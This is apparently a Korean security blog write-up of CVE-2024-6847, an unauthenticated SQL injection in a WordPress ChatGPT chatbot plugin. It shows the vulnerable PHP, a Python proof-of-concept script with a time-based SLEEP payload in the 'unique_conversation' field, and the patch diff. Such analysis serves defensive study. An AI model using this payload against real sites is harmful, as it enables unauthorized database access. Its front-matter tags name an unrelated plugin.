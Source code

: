 ```yaml
---
title: "[CVE-2024-6847] 취약점 분석 보고서"
date: 2025-02-21 19:50:00 +0900
author: rlaaudrb1104
categories: [One-Day 분석, WordPress]
tags: [빡공팟,콘테스트 네뷸라,WordPress, GiveWP, CVE-2024-6847, SQL Injection]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```



> ## **💡 요약**  
> **CVE-2024-6847**은 Chatbot with ChatGPT라는 워드프레스 플러그인 버전 2.4.4 이하에서 발견된 **SQL Injection**취약점입니다.
> 해당 취약점은 사용자가 제출한 메세지를 SQL문에 사용할 때 적절한 파라미터 검증과 이스케이프 처리가 이루어지지 않아 발생합니다.
> 이를 통해 인증되지 않은 사용자가 챗봇에 메시지를 제출할 때 악의적인 SQL 쿼리를 삽입하여 데이터베이스에 접근하거나 조작할 수 있습니다.

## 1. 취약점 개요

- **취약점 번호:** CVE-2024-6847  
- **영향 받는 버전:** Chatbot with ChatGPT 2.4.4 이하
- **취약점 유형:** SQL Injection
- **CVSS:** 9.8
- **취약점 패치 버전:** 3.2.16

해당 취약점은 WordPress의 Chatbot with ChatGPT 에서 발견된 **SQL Injection** 취약점입니다.

해당 취약점은 사용자가 챗봇에게 메세지를 전송할 때 `unique_conversation` 파라미터의 검증과 이스케이프 처리가 이루어지지 않아 발생하는 **SQL Injection** 취약점 입니다.

## 2. 취약점 상세

### 2.1 취약점 원인
<details>
    <summary><b>wdgpt_log_chat 함수</b></summary>

```php
    public function wdgpt_log_chat( $answer, $post_ids, $unique_conversation ) {
    $messages   = $this->wdgpt_get_last_two_messages();
    $messages[] = array(
        'role'    => 'assistant',
        'content' => $answer,
    );
    $now        = current_time( 'mysql' );
    $post_id    = implode( ',', $post_ids );
    global $wpdb;

    $existing_entry = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );

    if ( $existing_entry ) {
        $existing_post_ids = explode( ',', $existing_entry->post_ids );
        $new_post_ids      = array_unique( array_merge( $existing_post_ids, $post_ids ) );
        $wpdb->update(
            $wpdb->prefix . 'wdgpt_logs',
            array(
                'post_ids'   => implode( ',', $new_post_ids ),
                'created_at' => $now,
            ),
            array( 'unique_id' => $unique_conversation )
        );
        $log_id = $wpdb->get_var( "SELECT id FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
    } else {
        $wpdb->insert(
            $wpdb->prefix . 'wdgpt_logs',
            array(
                'post_ids'   => $post_id,
                'created_at' => $now,
                'unique_id'  => $unique_conversation,
            )
        );
        $log_id = $wpdb->insert_id;
    }

    foreach ( $messages as $message ) {
        $this->wdgpt_insert_log_message( $message, $log_id );
    }
}
```

</details>

`wdgpt_log_chat` 함수에서 인자로 받아오는 `unique_conversation` 변수를 적절한 이스케이프 없이 sql 쿼리에 직접 사용하고 있기 때문에 SQL Injection이 발생합니다.
```php
public function wdgpt_log_chat( $answer, $post_ids, $unique_conversation ) {
	...
	$existing_entry = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
	...
	$log_id = $wpdb->get_var( "SELECT id FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
	...
}
```

<details>
    <summary><b>wdgpt_log_chat 함수</b></summary>

```php

function wdgpt_retrieve_prompt( $request ) {

	try {
		$params              = json_decode( $request->get_body(), true );
		$question            = $params['question'];
		$conversation        = $params['conversation'];
		$unique_conversation = $params['unique_conversation'];
		$answer_generator    = new WDGPT_Answer_Generator( $question, $conversation );
		$answer_parameters   = $answer_generator->wdgpt_retrieve_answer_parameters();

		header( 'Content-type: text/event-stream' );
		header( 'Cache-Control: no-cache' );
		// Check if $answer_parameters is an empty array.
		if ( empty( $answer_parameters ) ) {
			echo 'event: error' . PHP_EOL;
			echo 'data: ' . __( 'Currently, there appears to be an issue. Please try asking me again later.', 'webdigit-chatbot' ) . PHP_EOL;
			ob_flush();
			flush();
			return '0';
		}
		$api_key                = $answer_parameters['api_key'];
		$temperature            = $answer_parameters['temperature'];
		$messages               = json_decode( json_encode( $answer_parameters['messages'], JSON_INVALID_UTF8_SUBSTITUTE ) );
		$max_tokens             = $answer_parameters['max_tokens'];
		$model_type             = $answer_parameters['model_type'];
		$top_summaries_post_ids = $answer_parameters['top_summaries_post_ids'];
		$openai                 = new OpenAi( $api_key );

		$answer = '';

		$chat = json_decode(
			$openai->chat(
				array(
					'model'       => $model_type,
					'messages'    => $messages,
					'temperature' => floatval( $temperature ),
					'max_tokens'  => $max_tokens,
					'stream'      => true,
				),
				function ( $ch, $data ) use ( &$answer, $answer_generator ) {
					$obj = json_decode( $data );
					// Vérifiez si $obj est un objet et s'il a la propriété 'error' et si la propriété 'message' n'est pas vide.
					if ( is_object( $obj ) && property_exists( $obj, 'error' ) && ! empty( $obj->error->message ) ) {
						$answer_generator->wdgpt_insert_error_log_message( $obj->error->message, 0, 'stream_error' );
					} else {
						echo $data;
						$result = explode( 'data: ', $data );
						foreach ( $result as $res ) {
							if ( '[DONE]' !== $res ) {
								$arr = json_decode( $res, true );
								if ( isset( $arr['choices'][0]['delta']['content'] ) ) {
									$answer .= $arr['choices'][0]['delta']['content'];
								}
							}
						}

						// echo PHP_EOL;
						ob_flush();
						flush();
						return strlen( $data );
					}
				}
			)
		);

		$pattern     = '/\[(.*?)\]\((.*?)\)/';

		$replacement = '<a href="$2" target="_blank">$1</a>';

		$transformed_string = preg_replace( $pattern, $replacement, $answer );

		$transformed_string = str_replace( "\n", '<br>', $transformed_string );

		$answer_generator->wdgpt_log_chat( $transformed_string, $top_summaries_post_ids, $unique_conversation );
		return '0';
	} catch ( Exception $e ) {
		return __( 'There is currently an error with the chatbot. Please try again later.', 'webdigit' );
	}
}

```

</details>

또한 `wdgpt_log_chat` 함수를 호출하는 함수인 `wdgpt_retrieve_prompt` 함수에서도 적절한 이스케이프 없이 `wpgpt_log_chat` 함수로 전달하고 있습니다.

```php
function wdgpt_retrieve_prompt( $request ) {

	try {
		$params              = json_decode( $request->get_body(), true );
		$question            = $params['question'];
		$conversation        = $params['conversation'];
		$unique_conversation = $params['unique_conversation'];
		$answer_generator    = new WDGPT_Answer_Generator( $question, $conversation );
		$answer_parameters   = $answer_generator->wdgpt_retrieve_answer_parameters();
		...
		$answer_generator->wdgpt_log_chat( $transformed_string, $top_summaries_post_ids, $unique_conversation );
		return '0';
	} catch ( Exception $e ) {
		return __( 'There is currently an error with the chatbot. Please try again later.', 'webdigit' );
	}
}
```
따라서 사용자는 `unique_conversation` 매개변수를 통해 SQL Injection을 수행할 수 있게 됩니다.

## 3. PoC

### 3.1 PoC 코드

```python
import requests
import time

url = "http://localhost:8081/wp-json/wdgpt/v1/retrieve-prompt"

payload = "mlg4w8is9cnlxonnq78' AND (SELECT 1 FROM (SELECT SLEEP(7))A) AND '1'='1"

conversation_data = [
    {
      "text": "Test",
      "role": "user",
      "date": "2025-01-24T12:16:42.179Z"
    }
  ]

headers = {
    "Content-Type": "text/plain;charset=UTF-8",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36",
    "Accept": "*/*",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "question": "test sql injection",
    "conversation": conversation_data,
    "unique_conversation": payload
}

start_time = time.time()
response = requests.post(url, json=data, headers=headers)

end_time = time.time()

response_time = end_time - start_time
if response_time > 7:
    print(f"SQL Injection successful. Response delay: {response_time:.2f} seconds.")
else:
    print("SQL Injection not successful or server did not delay.")
    
print(response.text)
```

### 3.2 주요 기능

- **URL**: `url` 변수에는 요청을 보내야 할 API 엔드포인트가 포함됩니다. 여기서는 `http://localhost:8081/wp-json/wdgpt/v1/retrieve-prompt`를 사용합니다.

- **Payload**: `payload` 변수는 SQL 인젝션 페이로드입니다. 이는 `unique_conversation` 값에 삽입되며, `SLEEP(7)`을 사용하여 서버의 응답을 7초 동안 지연시킵니다.

- **Headers**: 요청의 헤더 정보입니다. 일반적인 HTTP 요청을 위해 필요한 정보를 설정합니다.

- **Data**: 요청 본문에 포함될 데이터를 구성하는 부분으로, `question`, `conversation`, 그리고 악성 SQL 인젝션 페이로드가 포함된 `unique_conversation` 값이 포함됩니다.

- **Response Time**: 서버의 응답 시간을 측정하여 `SLEEP(7)`이 실행되었는지 확인합니다. 응답 시간이 7초 이상일 경우, SQL 인젝션 공격이 성공적으로 실행되었음을 나타냅니다.

### 결과 확인

- **성공적인 SQL 인젝션**: 만약 서버가 7초 이상 지연된 응답을 보낸다면, 이는 SQL 인젝션이 성공적으로 이루어졌다는 신호입니다. 이 경우 `SQL Injection successful` 메시지가 출력됩니다.

- **실패한 SQL 인젝션**: 응답 지연 시간이 7초 이하일 경우, SQL 인젝션이 성공하지 않았거나 서버가 이를 방어했다는 것을 의미합니다.

## 4. 패치 내용 및 변경사항 분석

```
diff --git a/path/to/file.php b/path/to/file.php
index 1234567..89abcde 100644
--- a/path/to/file.php
+++ b/path/to/file.php
@@ 기존 DB 쿼리 부분
- $existing_entry = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
+ $existing_entry = $wpdb->get_row( $wpdb->prepare(
+     "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = %s",
+     $unique_conversation
+ ) );
@@ 사용자 입력 sanitization 부분
- $question            = $params['question'];
- $conversation        = $params['conversation'];
- $unique_conversation = $params['unique_conversation'];
+ $question            = sanitize_text_field( $params['question'] );
+ $conversation = array_map(function($conv) {
+     return [
+         'text' => sanitize_text_field( $conv['text'] ),
+         'role' => sanitize_text_field( $conv['role'] ),
+         'date' => sanitize_text_field( $conv['date'] )
+     ];
+ }, $params['conversation']);
+ $unique_conversation = sanitize_text_field( $params['unique_conversation'] );
```

SQL Injection 취약점을 해결하기 위해, 다음과 같은 수정이 이루어졌습니다.

### 4.1 `prepare()` 사용

수정된 코드는 SQL 쿼리에서 `wpdb->prepare()`를 사용하여 `unique_conversation` 값을 안전하게 처리합니다. 이 메서드는 SQL 쿼리 내에 사용될 변수를 안전하게 escaping 처리하여 SQL 인젝션을 방지합니다.

```php
$existing_entry = $wpdb->get_row( $wpdb->prepare(
    "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = %s",
    $unique_conversation
));
```

### 4.2 `sanitize_text_field()` 사용
또한, `unique_conversation` 값은 입력받은 후 `sanitize_text_field()` 함수로 처리됩니다. 이 함수는 텍스트 필드에서 불필요한 HTML 태그나 특수 문자를 제거하여, 악의적인 스크립트나 SQL 쿼리를 삽입할 수 없도록 만듭니다.

```php
$unique_conversation = sanitize_text_field($params['unique_conversation']);
```
